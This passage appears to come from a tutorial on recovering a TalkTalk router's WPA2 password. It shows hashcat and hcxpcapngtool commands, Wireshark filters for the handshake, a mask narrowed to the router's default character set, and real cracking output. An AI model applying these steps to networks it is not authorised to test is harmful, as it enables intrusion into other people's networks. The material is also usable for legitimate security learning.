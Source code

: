 ## Getting the password

We are only really interested in the '.cap' file. We'll use a hashcat utility 'hcxpcapngtool' to convert the file into something hashcat can brute force so we can recover the password. We give `-o` for output file then specify the input (.cap) file we captured earlier

`hcxpcapngtool -o handshake1.22000 handshake-01.cap`

This will give us a '.22000' file that the newer hashcat prefers for this.

`[TIP 👀]`

```plaintext
The best thing to do is, Use Wireshark to slim down the .cap file. You need 5 packets. The 4 way handshake and the broadcast/beacon packet from the router. Use these filters

eapol
Filters packets related to the 4-way handshake (EAPOL protocol).

wlan.fc.type_subtype == 0x08:
Filters beacon frames (broadcast packets) from the router.
```

Since I am attacking a 'TALKTALK' router, We know from publicly available info that it uses

**_Numbers: 346789_**

**_Characters: ABCDEFGHJKMNPQRTUVWXY_**

Basically it uses capital A-Z and numerical 0-9 **_But_** it does miss a few numbers and letters (I,L,O,S,Z) out and we can save a **_lot_** of time by not searching for those. It goes from 146 days down to 14 for me by removing just 4 numbers and 5 characters. See Hashcat output below for each command

`hashcat -m 22000 -a 3 handshake01.22000 -1 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ ?1?1?1?1?1?1?1?1 -w 3 --status`

```plaintext
Session..........: hashcat
Status...........: Running
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: handshake1.22000
Time.Started.....: Thu Jan 23 16:54:33 2025 (8 secs)
Time.Estimated...: Thu Jun 19 01:15:53 2025 (146 days, 7 hours)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?1?1?1?1?1?1?1?1 [8]
Guess.Charset....: -1 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ, -2 Undefined, -3 Undefined, -4 Undefined
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   223.2 kH/s (69.89ms) @ Accel:16 Loops:1024 Thr:128 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 1769472/2821109907456 (0.00%)
Rejected.........: 0/1769472 (0.00%)
Restore.Point....: 0/78364164096 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:27-28 Iteration:2048-3072
Candidate.Engine.: Device Generator
Candidates.#1....: E2345678 -> ER3BERIN
Hardware.Mon.SMC.: Fan0: 28%, Fan1: 28%
Hardware.Mon.#1..: Util: 99%
```
